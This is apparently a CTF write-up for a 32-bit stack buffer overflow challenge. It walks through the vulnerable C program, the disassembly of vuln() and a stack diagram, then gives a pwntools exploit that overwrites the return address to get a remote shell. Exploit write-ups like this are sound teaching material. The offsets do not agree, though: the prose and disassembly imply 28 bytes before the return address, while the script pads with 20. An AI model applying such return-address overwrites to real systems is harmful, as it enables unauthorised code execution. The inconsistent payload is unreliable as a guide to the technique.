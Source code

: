 ```yaml
---
title:          "Baby Buffer Overflow - 32bit (Huntress CTF 2024)"
pubDate:        2024-11-27
description:    CTF ComSec CyberSecurity Write-up Huntress Huntress-CTF-2024
---
```


> Author: @aenygma
> 
> Can you command this program to where it cannot go?
> To get the flag, you must somehow take control of its excecution.
> Is it even possible?

Looking at the provided `C` code:

```c 
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```

We can tell that there is **no stack pointer protection**, and to help us, *position-independent executable* compiling is disable. This means function stack frames are placed back-to-back and addresses are as they would be. We want to hit the buffer in `vuln()` so that the `return` function returns back up to `target` instead of back to `main`. Decompiling the offered program in Binja, the `target` is mapped to location `080491f5  int32_t target()`, while the `vuln` is as follows:

```
08049236  int32_t vuln()

08049236  55                 push    ebp {__saved_ebp}
08049237  89e5               mov     ebp, esp {__saved_ebp}
08049239  83ec18             sub     esp, 0x18
0804923c  83ec0c             sub     esp, 0xc
0804923f  8d45e8             lea     eax, dword ptr [ebp-0x18 {var_1c}]
08049242  50                 push    eax {var_1c} {var_2c}
08049243  e8d8fdffff         call    gets
08049248  83c410             add     esp, 0x10
0804924b  b800000000         mov     eax, 0x0
08049250  c9                 leave    {__saved_ebp}
08049251  c3                 ret      {__return_addr}
```

We are interested in the location in the stack that stores the buffer, and the location that the `__saved_ebp` is pushed it. 
1. `push ebp {__saved_ebp}` stores the previous base stack pointer value to the stack, 
2. `mov ebp, esp {__saved_ebp}` sets the new stack base to the current stack pointer
3. `sub esp, 0x18` increases the stack by 0x18 bytes
4. `lea eax, dword ptr [ebp-0x18 {var_1c}]` calculates the effective address of *0x18 bytes behind the stack pointer*.

This is what it would look like:

```

    +----------+ \
    | ret addr | |
    +-        -+ |
    | ret addr | | 
    +-        -+ | portion we target
    | ret addr | |
    +-        -+ |
    | ret addr | |
    +----------+ / 
    | old ebp  |
    +-        -+
    | old ebp  |
    +-        -+
    | old ebp  |
    +-        -+
    | old ebp  |
    +----------+ <- ebp
    |          |
    +----------+ <- esp-0x18
      .......
    +----------+
    |          | 
    +----------+ <- esp

```

Starting from the `esp` below, data will get pushed in up until the last *blank* byte at `esp-0x18`. So by entering 24 random characters, we hit the and of the stack. The next four bytes are the `old esp` position, and above that is the precious `{__return_addr}`. We will need to key in `0x080491f5`, but not with ascii characters of course. So we use `pwntools` in python to help us.

```py
from pwn import *

target_function_address = 0x080491f5  # Address of target function

# Construct the payload
payload = b'A' * 16 + b'B' * 4 + p32(target_function_address)

# Connect to the remote service
p = remote("challenge.ctf.games", PORT)


# Send the payload
p.sendline(payload)


# Drop into interactive mode to access the shell
p.interactive()
```

We get dropped into the shell after running this, and we are free to roam the world (and print the file containing the flag).

